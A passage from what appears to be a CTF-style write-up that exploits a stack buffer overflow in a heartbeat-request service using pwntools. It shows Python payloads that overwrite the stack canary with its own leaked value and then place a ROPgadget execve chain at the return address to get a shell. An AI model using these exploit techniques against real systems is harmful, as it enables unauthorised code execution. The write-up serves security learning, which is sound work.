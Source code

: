 <p>It very well does. Now let's see if overwriting it with our <code>canary_ish_thingy</code> works.
</p>
{% highlight python %}
payload += canary_ish_thingy
nc_ed.sendline(payload)
nc_ed.recvuntil("Waiting for heart beat request...")
nc_ed.sendline(b'1:a')
nc_ed.interactive() 
# It did. It returns Waiting for heart beat request...
# But apparently it sometimes end up getting an infinite loop?
{% endhighlight %}

<p>
I don't exactly know/remember what was happening, but it worked for the vast majority of the time. Anyway, our hypothesis that <code>local_10</code> is indeed the stack canary and overwriting it with itself could allow us to bypass the stack smashing detection system. 
</p>

<p>So, you'd probably think that we can put shellcode inside our buffer <code>local_418</code> and changing the return address to the address of the buffer would work, like this code does:
</p>
{% highlight python %}
new_payload = b'0:'
new_payload += shellcode
new_payload += b'a' * (1032 - len(shellcode))
new_payload += canary_ish_thingy
new_payload += b'b' * 16 # 8? 16?
new_payload += pwn.p32(0x00401ec1) # b'\xc1\x1e\x40\x00'

nc_ed.sendline(new_payload)
nc_ed.interactive()
{% endhighlight %}

<p>Apparently it does not. I spent all they thinking the address <code>0x00401ec1</code> was wrong, but both Ghidra and GDB gave me the same address. While being very confused, I remembered the <a href="https://en.wikipedia.org/wiki/Return-oriented_programming">return-oriented programming</a> (ROP) that I taught in CS 426 that I TAed. </p>

<p>I turned on ROPGadget and had it generate <code>execve</code> (ROP chain), set it as <code>shellcode</code>, and put it into where the return address is at:</p>

{% highlight python %}
new_payload = b'0:'
new_payload += b'a' * 1032
new_payload += canary_ish_thingy
new_payload += b'b' * 8
new_payload += shellcode

nc_ed.sendline(new_payload)
nc_ed.interactive()
{% endhighlight %}
</font>
